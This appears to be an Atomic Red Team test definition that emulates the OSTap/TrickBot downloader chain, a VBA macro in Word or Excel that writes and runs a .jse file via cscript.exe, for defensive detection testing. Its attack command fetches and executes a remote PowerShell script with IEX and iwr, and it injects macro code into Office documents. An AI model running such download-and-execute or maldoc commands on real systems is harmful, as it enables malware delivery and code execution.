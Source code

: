 
<br/>

## Atomic Test #1 - OSTap Style Macro Execution
This Test uses a VBA macro to create and execute #{jse_path} with cscript.exe. Upon execution, the .jse file launches wscript.exe.
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.
This is a known execution chain observed by the OSTap downloader commonly used in TrickBot campaigns.
References:
  https://www.computerweekly.com/news/252470091/TrickBot-Trojan-switches-to-stealthy-Ostap-downloader

**Supported Platforms:** Windows


**auto_generated_guid:** 8bebc690-18c7-4549-bc98-210f7019efff





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| jse_path | Path for the macro to write out the "malicious" .jse file | string | C:&#92;Users&#92;Public&#92;art.jse|
| ms_product | Maldoc application Word or Excel | string | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"cscript.exe #{jse_path}`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
```

#### Cleanup Commands:
```powershell
Remove-Item #{jse_path} -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```
